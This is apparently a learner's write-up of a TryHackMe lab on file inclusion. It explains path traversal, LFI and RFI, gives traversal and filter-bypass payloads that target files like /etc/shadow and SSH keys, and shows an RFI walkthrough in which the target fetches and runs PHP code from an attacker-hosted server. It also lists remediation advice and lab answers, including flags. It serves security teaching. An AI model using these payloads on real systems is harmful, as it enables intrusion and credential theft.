










# [File Inclusion](https://tryhackme.com/room/fileinc)

## Path Traversal

### What is file inclusion?

In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following diagram breaks down the essential parts of a URL.


For example, parameters are used with Google searching, where GET requests pass user input into the search engine. https://www.google.com/search?q=TryHackMe.

Let's discuss a scenario where a user requests to access files from a webserver. First, the user sends an HTTP request to the webserver that includes a file to display. For example, if a user wants to access and display their CV within the web application, the request may look as follows, http://webapp.thm/get.php?file=userCV.pdf, where the file is the parameter and the userCV.pdf, is the required file to access.


### Why do File inclusion vulnerabilities happen?

File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

### What is the risk of File inclusion?

By default, an attacker can leverage file inclusion vulnerabilities to leak data, such as code, credentials or other important files related to the web application or operating system. Moreover, if the attacker can write files to the server by any other means, file inclusion might be used in tandem to gain remote command execution (RCE).

### Path traversal

Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.>

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the file_get_contents to read the content of a file. You can find more information about the function [here](https://www.php.net/manual/en/function.file-get-contents.php).

The following graph shows how a web application stores files in /var/www/app. The happy path would be the user requesting the contents of userCV.pdf from a defined path /var/www/app/CVs.

We can test out the URL parameter by adding payloads to see how the web application behaves. Path traversal attacks, also known as the dot-dot-slash attack, take advantage of moving the directory one step up using the double dots ../. If the attacker finds the entry point, which in this case get.php?file=, then the attacker may send something as follows, http://webapp.thm/get.php?file=../../../../etc/passwd

Suppose there isn't input validation, and instead of accessing the PDF files at /var/www/app/CVs location, the web application retrieves files from other directories, which in this case /etc/passwd. Each .. entry moves one directory until it reaches the root directory /. Then it changes the directory to /etc, and from there, it read the passwd file.


As a result, the web application sends back the file's content to the user.


Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the boot.ini file located in c:\boot.ini, then the attacker can try the following depending on the target OS version:

`http://webapp.thm/get.php?file=../../../../boot.ini` or

`http://webapp.thm/get.php?file=../../../../windows/win.ini`

The same concept applies here as with Linux operating systems, where we climb up directories until it reaches the root directory, which is usually .

Sometimes, developers will add filters to limit access to only certain files or directories. Below are some common OS files you could use when testing.

|                               |                                                                                                                                                                   |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Location**                  | **Description**                                                                                                                                                   |
| `/etc/issue`                  | contains a message or system identification to be printed before the login prompt.                                                                                |
| `/etc/profile`                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| `/proc/version`               | specifies the version of the Linux kernel                                                                                                                         |
| `etc/passwd`                  | has all registered users that have access to a system                                                                                                             |
| `/etc/shadow`                 | contains information about the system's users' passwords                                                                                                          |
| `/root/.bash_history`         | contains the history commands for `root` user                                                                                                                     |
| `/var/log/dmessage`           | contains global system messages, including the messages that are logged during system startup                                                                     |
| `/var/mail/root`              | all emails for `root` user                                                                                                                                        |
| `/root/.ssh/id_rsa`           | Private SSH keys for a root or any known valid user on the server                                                                                                 |
| `/var/log/apache2/access.log` | the accessed requests for `Apache` web server                                                                                                                     |
| `C:\boot.ini`                 | contains the boot options for computers with BIOS firmware                                                                                                        |

### Questions

Q: What function causes path traversal vulnerabilities in PHP?

A: `file_get_contents`

## Local File Inclusion (LFI)

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications. In this room, we'll be picking on PHP, but it's worth noting LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal.

**#1.** Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?PHP 
	include($_GET["lang"]);
?>
```

The PHP code above uses a GET request via the URL parameter lang to include the file of the page. The call can be done by sending the following HTTP request as follows: `http://webapp.thm/index.php?lang=EN.php` to load the English page or `http://webapp.thm/index.php?lang=AR.php` to load the Arabic page, where EN.php and AR.php files exist in the same directory.

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation. Let's say we want to read the `/etc/passwd` file, which contains sensitive information about the users of the Linux operating system, we can try the following: `http://webapp.thm/get.php?file=/etc/passwd`

In this case, it works because there isn't a directory specified in the include function and no input validation.

**#2.** Next, In the following code, the developer decided to specify the directory inside the function.

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

Again the payload looks similar to the path traversal, but the include function allows us to include any called files into the current page. The following will be the exploit:

http://webapp.thm/index.php?lang=../../../../etc/passwd

Now apply what we discussed, try to read files within the server, and figure out the directory specified in the include function and answer question #2 below.

### Questions

Q: Give Lab #1 a try to read **/etc/passwd**. What would the request URI be?

A: `/lab1.php?file=/etc/passwd`

Q: In Lab #2, what is the directory specified in the include function?



A: `includes`

## Local File Inclusion - LFI Continued

**#3.** In the first two cases, we checked the code for the web app, and then we knew how to exploit it. However, in this case, we are performing black box testing, in which we don't have the source code. In this case, errors are significant in understanding how the data is passed and processed into the web app.

In this scenario, we have the following entry point: `http://webapp.thm/index.php?lang=EN`. If we enter an invalid input, such as THM, we get the following error

```php
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error message discloses significant information. By entering THM as input, an error message shows what the include function looks like: `include(languages/THM.php);`.

If you look at the directory closely, we can tell the function includes files in the languages directory is adding .php at the end of the entry. Thus the valid input will be something as follows: `index.php?lang=EN`, where the file EN is located inside the given languages directory and named `EN.php`.

Also, the error message disclosed another important piece of information about the full web application directory path which is `/var/www/html/THM-4/`.

To exploit this, we need to use the `../` trick, as described in the directory traversal section, to get out the current folder. Let's try the following:

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

Note that we used 4 `../` because we know the path has four levels `/var/www/html/THM-4`. But we still receive the following error:

```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

It seems we could move out of the PHP directory but still, the include function reads the input with `.php` at the end! This tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the NULL BYTE, which is `%00`.

Using null bytes is an injection technique where URL-encoded representation such as %00 or 0x00 in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

By adding the Null Byte at the end of the payload, we tell the include function to ignore anything after the null byte which may look like:

`include("languages/../../../../../etc/passwd%00").".php");` which is equivalent to `include("languages/../../../../../etc/passwd");`

**Note:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

Now apply what we showed in Lab #3, and try to read files /etc/passwd, answer question #1 below.

**#4.** In this section, the developer decided to filter keywords to avoid disclosing sensitive information! The /etc/passwd file is being filtered. There are two possible methods to bypass the filter. First, by using the NullByte %00 or the current directory trick at the end of the filtered keyword `/..` The exploit will be similar to `http://webapp.thm/index.php?lang=/etc/passwd/`. We could also use `http://webapp.thm/index.php?lang=/etc/passwd%00`.

To make it clearer, if we try this concept in the file system using `cd ..`, it will get you back one step; however, if you do `cd .`, It stays in the current directory. Similarly, if we try `/etc/passwd/..`, it results to be `/etc/` and that's because we moved one to the root. Now if we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

Now apply this technique in Lab #4 and figure out to read /etc/passwd.

**#5.** Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

We got the following error!

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`.

Why did this work?

This works because the PHP filter only matches and replaces the first subset string `../` it finds and doesn't do another pass, leaving what is pictured below.


Try out Lab #5 and try to read /etc/passwd and bypass the filter!

**#6.** Finally, we'll discuss the case where the developer forces the include to read from a defined directory! For example, if the web application asks to supply input that has to include a directory such as: `http://webapp.thm/index.php?lang=languages/EN.php` then, to exploit this, we need to include the directory in the payload like so: `?lang=languages/../../../../../etc/passwd`.

Try this out in Lab #6 and figure what the directory that has to be present in the input field is.

### Questions

Q: Give Lab #3 a try to read /etc/passwd. What is the request look like?



A: `/lab3.php?file=../../../../etc/passwd0`

Q: Which function is causing the directory traversal in Lab #4?



A: `file_get_contents`

Q: Try out Lab #6 and check what is the directory that has to be in the input field?



A: `THM-profile`

Q: Try out Lab #6 and read **/etc/os-release**. What is the **VERSION_ID** value?



A: `12.04`

## Remote FIle Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

RFI steps

  

The figure above is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

## Challenge

### Questions

Q: Capture Flag1 at /etc/flag1

Add the input `../../../../etc/flag1` to the website and then intercept the request with Burp. Right click on the request and choose `Change Request Method` for Burp to change the GET into a POST request.



Forward the request and the flag will be on the web page.



A:  ` F1x3d-iNpu7-f0rrn `

Q: Capture Flag2 at /etc/flag2

Change the cookie value to `admin`:



The cookie includes an LFI vulnerability, so in order to output the flag, one needs to modify the value accordingly (make sure to add the null byte at the end as well to get rid of the `.php` extension being added automatically). I got to this cookie value: `admin/../../../../../etc/flag2%00`



A: `c00k13_i5_yuMmy1`

Q: Capture Flag3 at /etc/flag3

Change the request method as we did in challenge 1 and add the null byte at the end to get rid of the extension. The link looked this at the end: `http://<IP>/challenges//chall3.php?file=../../../../../etc/flag3%00`

A: ``

Q: Gain RCE in **Lab #Playground** /playground.php with RFI to execute the hostname command. What is the output?

Create a file with the following payload:

```php
echo '<?php print exec('hostname'); ?>' > phpinfo.php
```

Start a server:

```bash
python3 -m http.server 8081
```

Now use `curl` to access this file: `curl '10.80.142.3/playground.php?file=http://10.80.70.49:8081/phpinfo.php'`

And you should get a hit in the terminal you are running the http server in:



A: `lfi-vm-thm-f8c5b1a78692`
